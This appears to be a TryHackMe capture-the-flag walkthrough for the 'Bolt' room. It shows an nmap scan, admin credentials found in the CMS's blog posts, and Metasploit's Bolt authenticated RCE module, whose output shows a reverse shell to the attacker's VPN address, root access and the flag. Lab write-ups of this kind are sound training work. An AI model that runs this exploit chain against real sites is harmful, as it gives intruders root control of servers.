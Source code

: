 # TryHackMe Walkthrough 
Room link: https://tryhackme.com/r/room/bolt

## Nmap:
```
nmap -sCV -v 10.10.189.54 
```
<pre>
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-22 11:31 EDT
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 11:31
Completed NSE at 11:31, 0.00s elapsed
Initiating NSE at 11:31
Completed NSE at 11:31, 0.00s elapsed
Initiating NSE at 11:31
Completed NSE at 11:31, 0.00s elapsed
Initiating Ping Scan at 11:31
Scanning 10.10.189.54 [4 ports]
Completed Ping Scan at 11:31, 0.25s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 11:31
Completed Parallel DNS resolution of 1 host. at 11:31, 0.05s elapsed
Initiating SYN Stealth Scan at 11:31
Scanning 10.10.189.54 [1000 ports]
Discovered open port 80/tcp on 10.10.189.54
Discovered open port 22/tcp on 10.10.189.54
Discovered open port 8000/tcp on 10.10.189.54
Completed SYN Stealth Scan at 11:31, 5.32s elapsed (1000 total ports)
Initiating Service scan at 11:31
Scanning 3 services on 10.10.189.54
Completed Service scan at 11:32, 29.96s elapsed (3 services on 1 host)
NSE: Script scanning 10.10.189.54.
Initiating NSE at 11:32
Completed NSE at 11:32, 7.69s elapsed
Initiating NSE at 11:32
Completed NSE at 11:32, 11.14s elapsed
Initiating NSE at 11:32
Completed NSE at 11:32, 0.00s elapsed
Nmap scan report for 10.10.189.54
Host is up (2.6s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:85:ec:54:f2:01:b1:94:40:de:42:e8:21:97:20:80 (RSA)
|   256 77:c7:c1:ae:31:41:21:e4:93:0e:9a:dd:0b:29:e1:ff (ECDSA)
|_  256 07:05:43:46:9d:b2:3e:f0:4d:69:67:e4:91:d3:d3:7f (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
8000/tcp open  http    (PHP 7.2.32-1)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-generator: Bolt
|_http-title: Bolt | A hero is unleashed
  
NSE: Script Post-scanning.
Initiating NSE at 11:32
Completed NSE at 11:32, 0.00s elapsed
Initiating NSE at 11:32
Completed NSE at 11:32, 0.00s elapsed
Initiating NSE at 11:32
Completed NSE at 11:32, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
</pre>

## Opening IP in Browser:
### Did not find anything here 
![Screenshot 2024-07-22 210254](https://github.com/user-attachments/assets/257980f2-8be0-4cc6-9350-5099dadccb2c)


### Navigated to the port 8000, This has got some interesting pages
![Screenshot 2024-07-22 215524](https://github.com/user-attachments/assets/909c645b-e3ac-46b1-81ff-52a8e371f220)


### One of the blog reveals to us the username of the admin of the website
![Screenshot from 2024-07-22 11-41-03](https://github.com/user-attachments/assets/04d88e03-e942-4850-bf04-a7ab490d8345)

### And other blog reveals us the password in clear text 
![Screenshot from 2024-07-22 12-29-48](https://github.com/user-attachments/assets/e0753192-9bda-4f46-9a3d-51ab03f2ff99)



## SSH Login:
#### The username and passowrd are not for ssh 
```
ssh bolt@10.10.189.54
```
<pre>
The authenticity of host '10.10.189.54 (10.10.189.54)' can't be established.
ED25519 key fingerprint is SHA256:e1qiq3Gpe8kdF5iw8bxPh9T4IgoUlUqClso+H6525EE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.189.54' (ED25519) to the list of known hosts.
bolt@10.10.189.54's password: 
Permission denied, please try again.
bolt@10.10.189.54's password: 
</pre>

### Went to user manual page of Bolt CMS and found the login page details
![Screenshot 2024-07-22 220916](https://github.com/user-attachments/assets/8038d255-2403-4ed5-a8cb-4168f2383eaa)
### Logged in with the credentials and found the CMS version.

### Searched for the exploit in Exploit DB
![Screenshot 2024-07-22 221151](https://github.com/user-attachments/assets/e21ff7c1-cb55-4069-a53c-b8018886c8e0)

## Started the msfconsole:
#### Searched for the exploit in metasploit and selected the exploit and saw the options to set 
![Screenshot from 2024-07-22 12-14-40](https://github.com/user-attachments/assets/e1aab280-997b-4865-8cca-2f8a3e53eb16)

### Set the options LHOST, RHOSTS, USERNAME, PASSWORD and ran the exploit
#### RHOST is the ip of the machine
#### LHOST is the ip of our machine’s vpn ( note: we don’t get reverse shell if we use our own ip )
#### USERNAME and PASSWORD is that we found in previous enumeration
#### TARGETURI is where you want to put our website url. here its bolt website in port 8000
```
msf6 exploit(unix/webapp/bolt_authenticated_rce) > run
```
<pre>
[*] Started reverse TCP handler on 10.17.9.110:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Successfully changed the /bolt/profile username to PHP $_GET variable "sdkl".
[*] Found 3 potential token(s) for creating .php files.
[+] Deleted file mnlzukxy.php.
[+] Deleted file rdtkllozkg.php.
[+] Used token b54399f7cfb24501eac04a71d2 to create bmphghhjytu.php.
[*] Attempting to execute the payload via "/files/bmphghhjytu.php?sdkl=`payload`"
[!] No response, may have executed a blocking payload!
[*] Command shell session 2 opened (10.17.9.110:4444 -> 10.10.189.54:53504) at 2024-07-22 12:15:03 -0400
[+] Deleted file bmphghhjytu.php.
[+] Reverted user profile back to original state.

whoami
root

cat flag.txt
THM{wh0_d035nt_l0ve5_b0l7_r1gh7?}
</pre>



